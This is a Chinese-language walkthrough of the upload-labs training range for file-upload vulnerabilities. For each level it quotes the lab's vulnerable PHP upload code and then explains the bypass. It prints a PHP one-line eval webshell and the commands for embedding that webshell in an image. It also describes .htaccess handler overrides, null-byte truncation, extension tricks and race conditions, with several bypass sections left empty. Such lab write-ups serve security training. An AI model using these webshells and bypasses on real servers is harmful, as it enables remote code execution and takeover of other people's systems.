

> [任意文件上传靶场upload-labs下载地址](https://github.com/c0ny1/upload-labs/releases)

### Pass-01- 前端JS校验绕过

尝试上传一句话木马

```php
<?php @eval($_REQUEST[6868])?>
```


**代码审计：**

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

做了白名单策略，只允许`.jpg|.png|.gif`后缀的文件

**绕过方式：**

前端校验一文不值，删除js校验代码`onsubmit="return checkFile()`


### Pass-02- 文件类型MIME类型绕过

**代码审计：**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```


**绕过方式：**

文件类型绕过

修改`Content-Type`值


### Pass-03- 文件名后缀黑名单绕过

**代码审计：**

做了黑名单策略

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


**绕过方式：**


### Pass-04- .htaccess绕过

**代码审计：**

做了黑名单策略

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


**绕过方式：**

上传`.htaccess`文件，内容如下

```htaccess
<FilesMatch "jpg">
Sethandler application/x-httpd-php 
</FilesMatch>
```

> .htaccess会改变uploads这个目录下的文件解析规则, 调用php的解析器去解析一个文件名只需包含`“jpg”`字符串的任意文件
>
> 简单来说, 若一个文件的文件名为`1.jpg`, 其内容是`phpinfo()`, 那么apache就会调用php解析器去解析此文件


再上传`2.jpg`, 文件内容如下:

```php
<?php phpinfo();?>
```


查看上传路径`http://192.168.80.139/upload/2.jpg`


访问到图片里的php代码


### Pass-05- 文件名后缀大写绕过

**代码审计：**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


相比上一关来说，把`.htacces`也进入了黑名单


还没有做大小写转换

**绕过方式：**

我们可以把上传的木马文件后缀名改为大写

`1.php`改成`1.PHP`

上传文件，查看文件路径


在地址栏中访问`http://192.168.80.139/upload/202308301506064212.PHP`

没有报错说明上传成功

这个时候可以使用蚁剑来连接


进入目录管理


### Pass-06- 文件名后缀加空格绕过

**代码审计：**

代码中少了 `trim($file_ext)`：该函数是将字符串首位的空格去除

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


**绕过方式：**


### Pass-07- 文件名后缀加点绕过

**代码审计：**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

少了`deldot`函数

 `$file_name = deldot($file_name);`//删除文件名末尾的点

**绕过方式：**

利用windows特性，会自动去掉后缀名中最后的”.”，可在后缀名中加”.”绕过：


### Pass-08-文件名后缀 ::$DATA绕过

代码审计：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


`$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA`

> 在window的时候如果文件名+`"::$DATA"`会把`::$DATA`之后的数据当成文件流处理,不会检测后缀名，且保持`::$DATA`之前的文件名，他的目的就是不检查后缀名

漏洞绕过：

在上传文件名后面加上 `::$DATA`，这样就不会 检测我们上传的文件后缀是什么了


### Pass-09-文件名后缀拼接绕过

**代码审计：**


```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

代码先是去除文件名前后的空格，再去除文件名末尾的`.`，再通过`strrchar`函数来寻找`.`来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用1.php. .(点+空格+点)来绕过

**绕过方式：**

上传`1.php`文件，bp抓包修改文件名后缀`1.php. .`

使用`. .`绕过，首先删除一个点，再首尾去空，该文件还是会以`.`结尾


### Pass-10-文件名后缀双写绕过

**代码审计：**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

将文件名进行过滤操作后，将文件名拼接在路径后面，所以需要绕 过前面的首尾去空以及去点

**绕过方式：**

修改上传的文件后缀为：`1.pphphp`


### Pass-11- GET型00截断

> 00截断原理：
>
> 		0x00是十六进制表示方法，是ascii码为0的字符，在有些函数处理时，会把这个字符当做结束符。
> 			
> 		系统在对文件名的读取时，如果遇到0x00,就会认为读取已结束。
> 			
> 		可以通过00截断，绕过对应的白名单验证
>
> 
>
> 		1.php0x00.jpg

**代码审计：**

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

白名单过滤，只允许`('jpg','png','gif')`后缀的文件


==**GET型提交的内容会被 自动进行URL解码**==


**绕过方式：**


上传`2.jpg`里面内容是`<?php   phpinfo();?>`


图片上传成功，右键复制图像 链接


发现地址中有乱码


去掉`2.php`后面 的参数，访问到php探针


### Pass-12-  POST型00截断

**代码审计：**

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}

```

同样的白名单策略，与上一关不同的是，这次换成了`$_POST`


==**在POST请求中，`%00`不会被自动解码，需要在16进制中修改为`00`**==

**绕过方式：**


修改完成后点击`Forward`放包，上传成功！

复制图像链接


```
http://127.0.0.1/upload/2.php%EF%BF%BD/7520230830195703.jpg
```

去掉后面多余的参数

```
http://127.0.0.1/upload/2.php
```


### Pass-13- 文件内容头部绕过

**代码审计：**


**绕过方式：**

`shell.php`内容

```php
<?php @eval($_REQUEST[6868])?>
```


图片木马制作：

```bash
windows:
	copy 1.jpg /b + 1.php /a 2.jpg
Linux:
	cat 1.jpg shell.php > shell.jpg
```


图片上传成功


查看上传路径


图片的上传路径`/upload/6720230830201732.jpg`


结合文件包含漏洞执行图片木马

```
http://127.0.0.1/include.php?file=./upload/6720230830201732.jpg
```

蚁剑连接


### Pass-14- getimagesize()检查绕过

代码审计：


`getimagesize()`函数对文件内容头部做检查

**绕过方式：**

1、直接上传图片木马

2、上传php木马，修改文件内容（文件幻数）


图片上传路径`upload/1820230830203805.gif`

要想触发木马，需要结合文件包含 来实现

```php
http://127.0.0.1/include.php?file=./upload/1820230830203805.gif
```


蚁剑连接


### Pass-15- exif_imagetype()检测绕过

**代码审计：**


exif_imagetype — 判断一个图像的类型是否为图片文件

**绕过方式：**

生成图片木马绕过函数检测，利用文件包含漏洞连接webshell

### Pass-16- 二次渲染绕过

综合判断了后缀名、content-type，以及利用imagecreatefromgif判断是否为gif图片，最后再做了一次二次渲染

因此我们需要绕过二次渲染的部分，也就是在在二次渲染不会改变的部分加入我们需要的php木马的代码


 满足`move_uploaded_file`就可以上传成功!!!

**绕过方式：**
[地址详解](https://xz.aliyun.com/t/2657)

### Pass-17-条件竞争

**代码审计：**

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}

```

这里先将文件上传到服务器，然后通过rename修改名称，再通过unlink删除文件，因此可以通过条件竞争的方式在unlink之前，访问webshell。


发现如果上传的符合它的白名单，那就进行重命名，如果不符合，直接删除！解析的机会都没有，这让我想到了条件竞争，如果我在它删除之前就访问这个文件，他就不会删除了。接下来直接实验
上传一个php文件，然后burp抓包发到爆破模块

**绕过方式：**




start attack发包，然后用浏览器一直访问info.php，如果在上传的瞬间访问到了，它就无法删除。


### Pass18-

**代码审计**：

```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};

```

本关对文件后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，将文件上传后，对文件重新命名，同样存在条件竞争的漏洞。可以不断利用burp发送上传图片马的数据包，由于条件竞争，程序会出现来不及rename的问题，从而上传成功：

**绕过方式**：

### Pass19-

**代码审计：**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

本关考察CVE-2015-2348 move_uploaded_file() 00截断，上传webshell，同时自定义保存名称，直接保存为php是不行的

发现move_uploaded_file()函数中的img_path是由post参数save_name控制的，因此可以在save_name利用00截断绕过：

**绕过方式：**


### Pass20-


